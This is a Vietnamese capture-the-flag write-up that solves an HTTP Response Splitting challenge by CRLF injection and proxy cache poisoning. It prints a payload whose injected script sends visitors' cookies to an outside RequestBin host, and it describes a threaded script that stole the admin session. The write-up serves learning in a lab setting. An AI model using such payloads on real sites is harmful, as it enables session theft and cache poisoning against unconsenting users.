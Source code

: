 # HTTP Response Splitting

Lưu ý: trước khi giải bài này thì bạn cần phải biết về cách thức tấn công này để có thể thực hiện tấn công thành công. Bạn có thể đọc ở [đây](http://www.moqifei.com/archives/609). Mình đã đọc qua một vài trang viết về HTTP Response Splitting và trang web vừa rồi là trang web viết rõ nhất và dễ hiểu nhất.

Khi mở trang web lên thì mình nhận được yêu cầu phải chọn ngôn ngữ.

![anh1]()

Thông qua việc tìm hiểu các tài liệu về HTTP Response Splitting, mình biết rằng mình có thể kiểm tra xem trang web có thể bị inject không  bằng việc sử dụng CLRF injection (sử dụng các kí tự \r\n để tạo xuống dòng trong request). mình đã thử sử dụng và thêm vào 1 trường test=true. Sau khi kiểm tra response thì mình thấy dưới trường Set-Cookie của response có thêm trường test=true, tức là mình có thể thực hiện inject được.

![anh2]()

mình viết thêm đoạn payload như sau:

```
\r\nContent-Length: 0
\r\n
\r\nHTTP/1.1 200 OK
\r\nContent-Type: text/html
\r\nLast-modified: Thu, 01, Jan 2100 12:00:00 GMT
\r\nContent-Length: 138
\r\n
\r\n<script>document.write("<h1>test</h1><img src=http://requestbin.fullcontact.com/148xfw11?".concat(document.cookie).concat(" />"))</script>

```

Ở đây, dòng Content-Length đầu tiên mình gán giá trị bằng 0, tức là inject vào gói response của server để kết thúc response thứ nhất. Sau đó mình viết thêm response thứ 2 cùng đoạn script để thực hiện XSS, gửi dữ liệu về 1 trang web thứ 3 và mình sẽ chờ ở đó để lấy dữ liệu. Last-modified mình set thành 1 giá trị khá lớn để tránh việc cập nhật lại cache của proxy, làm cho việc inject không thành công.

![anh3]()

mình gửi request và thấy rằng mình đã tạo được 2 response thành công. Tuy nhiên nếu chú ý kĩ thì ở phần response của server trả về có trường Location.

![anh4]()

Trường này sẽ chỉ định việc redirect về trang /home, và việc này diễn ra rất nhanh, vì vậy không thể thực hiện exploit thành công được. Vì theo mình hiểu thì HTTP response splitting hoạt động dựa vào việc attacker gửi 1 request có kèm payload để nhận về 2 response, 1 response sẽ trả về cho attacker, còn lại 1 response sẽ lưu trữ trên cache của proxy. Lúc này nếu 1 request khác bất kì kết nối đến trong lúc cache còn lưu trữ response kia thì nó sẽ tự động ánh xạ response này cho tất cả các request tương tự. Trong bài này thì attacker sẽ gửi 1 request có kèm payload, sau đó nhận về 2 response, 1 response sẽ được lưu trữ lại trên cache là response thứ 2 (HTTP/1.1 200 OK). Sau đó hắn gửi 1 request tới /admin, response còn lại sẽ được ánh xạ vào request này, tức là từ lúc đó về sau các request tới /admin đều sẽ nhận được response HTTP/1.1 200 OK của attacker dẫn tới việc bị dính đoạn code XSS. Lúc này khi admin vào /admin thì cũng sẽ bị ảnh hưởng tương tự.

Tuy nhiên nhờ vào trường Location có trong http response thì trình duyệt sẽ tự động nhảy về /home ngay lập tức, dẫn tới việc attacker không thể gửi request thứ 2 tới /admin kịp. Vì vậy để exploit thành công thì mình đã viết 1 đoạn code sử dụng multi-threading để có thể gửi request thứ 2 tới /admin trước khi bị chuyển hướng về /home.

Đoạn code này mình sẽ up lên sau.

Chương trình mình viết bao gồm 2 function, 1 để poison cache của proxy bằng việc gửi 1000 payload để inject và 1 để gửi request tới /admin làm cho việc inject thành công. Để chắc chắn mình đã cho 4 luồng chạy song song.

Chạy chương trình và đợi 1 khoảng thời gian sau đó để admin ghé thăm /admin thì mình nhận thấy việc inject đã thành công vì đã có 1 request gửi tới trang RequestBin chứa session của admin.

![anh5]()

![anh6]()

Đem admin session vừa lấy được đem submit và mình đã giải được bài này.

![anh7]()